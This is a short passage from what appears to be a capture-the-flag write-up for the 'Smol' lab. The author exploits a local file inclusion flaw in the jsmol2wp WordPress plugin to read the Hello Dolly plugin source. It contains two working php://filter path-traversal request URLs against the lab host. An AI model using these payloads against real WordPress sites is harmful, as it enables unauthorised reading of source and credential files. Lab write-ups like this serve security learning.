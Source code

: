 ![](attachments/Pasted%20image%2020250625153246.png)

-> This page clearly mentions a plugin named 'Hello Dolly' and to verify the source code of the same. We could possibly have some interesting information in there. 
-> We can probably use the same vulnerability used to access wp-config.php to get the source code for the plugin. After some research, I found the name of the target file is 'hello.php'.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../hello.php
```

-> This command didn't seem to work. This was when I realized my mistake and looked into where wordpress plugins are stored.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```
